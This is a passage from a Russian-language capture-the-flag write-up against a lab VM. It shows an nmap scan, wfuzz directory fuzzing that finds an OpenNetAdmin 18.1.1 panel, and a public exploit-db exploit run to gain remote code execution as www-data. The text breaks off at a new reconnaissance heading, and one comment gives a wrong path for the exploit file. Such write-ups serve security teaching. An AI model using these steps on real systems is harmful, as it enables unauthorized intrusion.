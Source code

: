 <i>В этом райтапе предполагается, что виртуальная машина с заданием развернута в одной сети с машиной атакующего (сеть: <code>10.13.13.0/24</code>; атакующий подключен через <code>eth1</code>) по адресу <code>10.13.13.102</code></i>
<h2>Разведка</h2>
Прежде всего, сканируем порты атакуемой машины.
<pre><code>$ nmap -Pn -sV -p1-65535 10.13.13.102
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-17 08:32 EDT
Nmap scan report for 10.13.13.102
Host is up (0.0059s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
...</code></pre>

Видим, что на хосте запущены apache и OpenSSH. Попробуем зайти по адресу <code>http://10.13.13.102</code>.
Здесь нас ждет разочарование: мы увидим только дефолтную страницу apache2. Значит, попробуем фазинг директорий.

<pre><code>$ wfuzz -c -z file,/usr/share/wordlists/common.txt --hc 403,404 http://10.13.13.102/FUZZ</code></pre>

Следует отметить, что в данной ситуации справляются не все словари. Мне пришлось перепробовать несколько, прежде чем я получил директорию <code>/ona</code>
<pre><code>
===================================================================
ID           Response   Lines    Word     Chars       Payload        
===================================================================

000000001:   200        375 L    964 W    10918 Ch    ""             
000002020:   200        375 L    964 W    10918 Ch    "index.html"   
000002750:   301        9 L      28 W     310 Ch      "ona"          

Total time: 16.25063
Processed Requests: 4615
Filtered Requests: 4612
Requests/sec.: 283.9889
</code></pre>
Пробуем зайти на http://10.13.13.102/ona. Нас встречает что-то вроде панели администратора CMS. Немного покопавшись в ней, обнаруживаем, что почти ни на что прав у нас нет.

<h2>Удаленное исполнение кода</h2>
Хорошо, что мы знаем версию ona (кстати, ona расшифровывается как Openn Net Admin),а имено v18.1.1. Остается лишь поискать эксплойты на эту версию. Эксплойты действительно есть, например вот этот (https://www.exploit-db.com/exploits/47691). Попробуем его запустить.
<pre><code>
$ cd /tmp
$ nano sploit.sh # Записываем эксплойт в /etc/sploit.sh
$ chmod +x ./sploit.sh
$ ./sploit.sh http://10.13.13.102/ona/
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
</code></pre>
Таким образом, мы получили контроль над пользователем www-data. Посмотрим, что еще мы можем сделать.

<h2>Еще немного разведки</h2>
